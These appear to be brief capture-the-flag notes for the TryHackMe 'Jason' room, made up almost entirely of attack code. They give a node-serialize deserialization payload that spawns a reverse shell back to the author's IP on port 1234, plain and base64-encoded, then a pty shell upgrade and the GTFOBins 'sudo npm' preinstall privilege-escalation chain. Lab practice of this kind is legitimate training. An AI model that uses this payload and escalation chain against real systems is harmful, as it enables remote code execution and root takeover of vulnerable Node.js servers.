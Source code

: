 ### My IP: 10.18.15.191
### Box IP: 10.10.114.6


```js
'{"email": "_$$ND_FUNC$$_function() { var net = require(\"net\"), cp = require(\"child_process\"), sh = cp.spawn(\"/bin/sh\", []);var client = new net.Socket();client.connect(1234, \"10.18.15.191\", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;}()"}'
```

### Base64 Payload
eyJlbWFpbCI6ICJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKSB7IHZhciBuZXQgPSByZXF1aXJlKFwibmV0XCIpLCBjcCA9IHJlcXVpcmUoXCJjaGlsZF9wcm9jZXNzXCIpLCBzaCA9IGNwLnNwYXduKFwiL2Jpbi9zaFwiLCBbXSk7dmFyIGNsaWVudCA9IG5ldyBuZXQuU29ja2V0KCk7Y2xpZW50LmNvbm5lY3QoMTIzNCwgXCIxMC4xOC4xNS4xOTFcIiwgZnVuY3Rpb24oKXtjbGllbnQucGlwZShzaC5zdGRpbik7c2guc3Rkb3V0LnBpcGUoY2xpZW50KTtzaC5zdGRlcnIucGlwZShjbGllbnQpO30pO3JldHVybiAvYS87fSgpIn0=

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
sudo -l
```

```bash
export TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

### [PrivEsc GTFO-Bins](https://gtfobins.github.io/gtfobins/npm/#shell)
### [THM - Jason](https://tryhackme.com/room/jason)